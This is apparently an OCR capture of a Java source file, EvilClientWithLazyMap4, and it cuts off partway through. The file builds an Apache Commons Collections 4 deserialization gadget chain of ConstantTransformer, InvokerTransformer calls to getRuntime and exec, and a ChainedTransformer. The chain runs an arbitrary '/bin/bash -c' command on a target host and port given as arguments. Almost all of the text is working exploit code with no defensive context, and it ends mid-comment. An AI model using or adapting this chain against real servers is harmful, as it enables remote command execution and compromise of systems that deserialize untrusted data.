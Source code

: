 ```java
import org.apache.commons.collections4.map.LazyMap;

public class EvilClientWithLazyMap4
{
    @SuppressWarnings("unchecked")
    public static void main ( String[] argv ) throws Exception
    {
        String              addr        = argv[0];
        int                 port        = Integer.parseInt( argv[1] );
        String              cmd         = argv[2];
        Transformer[]       tarray      = new Transformer[]
        {
            new ConstantTransformer( Runtime.class ),
            new InvokerTransformer
            (
                "getMethod",
                new Class[]
                {
                    String.class,
                    Class[].class
                },
                new Object[]
                {
                    "getRuntime",
                    new Class[0]
                }
            ),
            new InvokerTransformer
            (
                "invoke",
                new Class[]
                {
                    Object.class,
                    Object[].class
                },
                new Object[]
                {
                    null,
                    new Object[0]
                }
            ),
            new InvokerTransformer
            (
                "exec",
                new Class[]
                {
                    String[].class
                },
                new Object[]
                {
                    new String[]
                    {
                        "/bin/bash",
                        "-c",
                        cmd
                    }
                }
            )
        };
        Transformer         tchain      = new ChainedTransformer( tarray );
        Map                 normalMap   = new HashMap();
        /*
         * 4.0的LazyMap删除了decorate()，增加了lazyMap()
```